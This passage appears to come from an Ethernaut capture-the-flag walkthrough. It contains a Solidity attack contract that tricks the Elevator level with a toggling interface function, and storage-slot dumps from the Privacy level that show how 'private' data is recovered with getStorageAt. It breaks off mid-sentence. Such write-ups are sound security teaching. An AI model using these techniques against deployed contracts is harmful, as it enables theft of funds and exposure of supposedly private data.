 ```
pragma solidity ^0.6.0;
import './elevator.sol';

contract elevatorAttack {
    bool public toggle = true;
    Elevator public target;


    constructor(address _targetAddress) public {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) public returns (bool) {
        toggle =!toggle;
        return toggle;
    }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```



## 12. Privacy
This is similar to the 8th level Vault, where we read the EVM storage. Here in addition, we learn about a small optimization of EVM and how casting works.

EVM stores state variables in chunks of 32 bytes. If consecutive variables make up a 32-byte space (such as in this case 8 + 8 + 16 = 32) they are stored in the same chunk. If we were to write them elsewhere, this optimization may not have happened. 

Using this we can check for each data stored at their respective slots, where ` i ` is the slot position.

```

  web3.eth.getStorageAt(contract.address, i, console.log)


```
0: 0x0000000000000000000000000000000000000000000000000000000000000001 This is the bool public locked = true which is stored as 1.
1: 0x0000000000000000000000000000000000000000000000000000000063b3ed94 This is the uint256 public ID = block.timestamp which is the UNIX timestamp in hex, 63b3ed94  (of this block in my instance])
2: 0x00000000000000000000000000000000000000000000000000000000ed94ff0a This is the 32 byte chunk of 3 variables all captures in ed94ff0a:
uint8 private flattening = 10 which is 0a
uint8 private denomination = 255 which is ff
uint16 private awkwardness = uint16(now) which is ed94. Well, that awkwardness variable is just the block.timestamp casted to 16-bits. We already know the actual 256-bit (32-byte) value of timestamp above: 63b3ed94. When casted down 16-bits, it became ed94 (4 x 4-bit hexadecimals).
3: 0x84221c8dbda8c1eaa07c361597d02f125e1c14f80c68be67430b916bf28b6955 This is data[0].
4: 0x47bcb629da52fce854213615f7cc9ab9a93bb3e25f635850291221fbd5101a8b This is data[1].
5: 0x0bc2b4c5a5e81ccd11ef655edeae12c652e74a0290dff9b898301215dfc4d1d5 This is data[2].
Now we just need data[2] casted down to bytes16. Here is how casting works in very few words:
